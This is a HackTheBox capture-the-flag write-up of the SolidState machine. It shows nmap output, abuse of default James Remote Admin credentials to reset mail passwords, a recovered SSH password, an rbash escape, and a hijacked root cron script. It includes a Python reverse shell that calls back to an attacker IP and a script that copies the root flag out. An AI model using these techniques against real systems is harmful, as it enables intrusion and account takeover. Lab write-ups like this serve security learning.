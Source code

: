 ```yaml
---
layout: post
title: HackTheBox | SolidState
date: 2018-07-02 19:00:00 -0400
categories:
- hackthebox
description: ''
image:
  feature: "/sacred-geometry-preview-02-.jpg-900x675.jpeg"
  credit: 
  creditlink: 
---
```

This post will describe exploitation of the SolidState device on [HackTheBox](https://www.hackthebox.eu).

![](https://image.ibb.co/nHoHJb/1.png)

## Enumeration

As is tradition, we run a full nmap scan:

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|_  256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.232 [10.10.14.232]), 
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
```

So one service definitely looks interesting, James 2.3.2. Typically, I would start my investigation on port 80 but based on my knowledge of the James Remote Admin tool. This service is typically left with default credentials which then can be used to change the passwords of the mail server users. From there we can access POP3 and snoop around the emails for the users.  

Logging in with Default Credentials: 

![](https://image.ibb.co/h9w4yb/2.png)

From this admin panel, we can change any user's password:

![](https://image.ibb.co/bu1hjG/3.png)

This makes it easy to enumerate each user's emails in turn.  For this we simply change each password to the user's username and then we can login to each one via POP3.  On Mindy's account we find some interesting emails.

```bash
root@kali:~/htb/SolidState# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS mindy
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

We have recovered a username and password for Mindy, so let's SSH to the machine. Sounds easy enough. 

## Privilege Escalation

### Rbash escape

When we SSH to the device, we're greeted by a restricted shell.

![](https://image.ibb.co/cpZ2jG/4.png)

Escaping restricted shells could be a post in its own right so I'd recommend reading [Escape from SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells), if you're interested in the topic.

To break out of this rbash shell we will need to use the `--noprofile` flag to bash on login as below, so rbash isn't loaded.

![](https://image.ibb.co/e1WhjG/5.png)

Upon our enumeration, we come across an interesting world-writeable file in /opt.  This might seem quite esoteric, but just remember to always check the `/opt` and `/usr/local` directories for any interesting custom packages or scripts.  Running [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) on every box you enumerate, and learning to pick out useful information is also an invaluable skill.  I recommend doing that here and finding where this file is referenced.

![](https://image.ibb.co/dk7NjG/6.png)

```python
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python

import os
import sys
if not os.geteuid() == 0:
    sys.exit("\nOnly root can run this script\n")
```

There's nothing in crontab, but considering it's been written as if only root can run it, and is owned by root, this suggests the root user may have a cron job set up for this script.  I had an inkling that this would be the case, so I wrote a script to fetch the root flag and output it to a temporary folder.  This one was definitely more down to CTF intuition than anything else.

We place the following code in tmp.py:

```python
#!/usr/bin/env python

import os

with open('/root/root.txt', 'rb') as rootfile:
    with open('/var/tmp/.crash', 'wb') as openthis:
        openthis.write(rootfile.read())
```

After a short amount of time, the flag is indeed written to the /var/tmp directory.

Getting a shell from this is then as simple as setting the python file to run any number of [reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

We'll place the following in tmp.py:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.4",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Wait a few minutes and:

![](https://image.ibb.co/iBjPyb/7.png)